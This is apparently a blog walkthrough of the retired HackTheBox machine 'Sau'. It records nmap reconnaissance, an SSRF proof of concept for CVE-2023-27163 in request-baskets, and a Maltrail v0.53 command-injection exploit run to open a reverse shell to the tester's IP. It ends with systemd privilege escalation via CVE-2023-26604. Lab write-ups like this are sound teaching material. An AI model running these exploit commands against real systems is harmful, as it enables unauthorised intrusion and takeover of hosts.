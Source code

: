 ```yaml
---
layout: post
title: Sau
date: 2025-07-18 02:34:00 +0800
categories: [HackTheBox, Easy]
tags: [Vulnerability Assessment, Enterprise Network, Default Credentials, Weak Permissions]
author: klein
image:
  path: /images/images-sau/image_04.png
  
---
```


This notes-style walkthrough will be conducted using HackTheBox Guided Mode for this retired machine.

###### Which is the highest open TCP port on the target machine?

Start off with an Nmap scan to find out this information.

```bash
nmap -sC -sV -vv -oN sau 10.129.229.26
```

![b](/images/images-sau/image_01.png)

###### What is the name of the open-source software that the application on 55555 is "powered by"?

By going to the web page, we can find out the software that powers this application.

![b](/images/images-sau/image_02.png)

###### What is the version of request-baskets running on Sau?

As can be seen from the previous image, the version number is 1.2.1

###### What is the 2023 CVE ID for a Server-Side Request Forgery (SSRF) in this version of request-baskets?

Just do a quick Google search.

```
request-baskets 1.2.1 exploit
```

![b](/images/images-sau/image_03.png)

###### What is the name of the software that the application running on port 80 is "powered by"?

I used this POC exploit to progress further.
https://github.com/entr0pie/CVE-2023-27163

```bash
./CVE-2023-27163.sh http://10.129.229.26:55555 http://127.0.0.1:80 
```

![b](/images/images-sau/image_05.png)

By visiting that link, we get access to the web page on port 80.

![b](/images/images-sau/image_06.png)

###### There is an unauthenticated command injection vulnerability in MailTrail v0.53. What is the relative path on the webserver targeted by this exploit?

With a quick Google search, I found this exploit:

https://github.com/spookier/Maltrail-v0.53-Exploit

By taking a look at the exploit code, it looks like it is targeting the /login path.

![b](/images/images-sau/image_07.png)

###### What system user is the Mailtrack application running as on Sau?

By doing a quick Google search, I found a POC exploit for Mailtrail.

https://github.com/spookier/Maltrail-v0.53-Exploit

By simply running the exploit, I got a reverse shell on the box.

```bash
python3 exploit.py 10.10.14.246 4444 http://10.129.189.107:55555/rcwlye

```

![b](/images/images-sau/image_08.png)

###### What is the full path to the binary (without arguments) that the puma user can run as root on Sau?

Let's see what puma can run as root.

```bash
sudo -l
```

![b](/images/images-sau/image_09.png)

###### What is the full version string for the instance of systemd installed on Sau?

```bash
/usr/bin/systemctl --version
```

![b](/images/images-sau/image_10.png)

###### What is the 2023 CVE ID for a local privilege escalation vulnerability in this version of systemd?

A quick Google search revealed the ID right away.

![b](/images/images-sau/image_11.png)

###### Submit the flag located in the root user's home directory.

To get the root user's flag, we need to escalate privileges with the previously found CVE. I found a short and straight to the point write up on this. 

https://medium.com/@zenmoviefornotification/saidov-maxim-cve-2023-26604-c1232a526ba7

![b](/images/images-sau/image_12.png)